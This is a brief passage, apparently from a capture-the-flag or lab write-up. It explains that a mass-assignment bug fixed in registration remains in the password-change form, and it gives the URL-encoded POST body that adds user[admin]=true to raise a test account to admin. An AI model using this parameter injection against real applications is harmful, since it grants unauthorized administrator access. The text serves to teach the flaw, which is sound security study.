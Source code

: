 The bug was fixed for the register function, but not for the changing password function. 
As before, add ```user[admin]=true``` to the POST parameters of the passowrd change request:
```
user%5Busername%5D=test&user%5Bpassword%5D=test2&user%5Badmin%5D=true&submit=Submit+Query
```
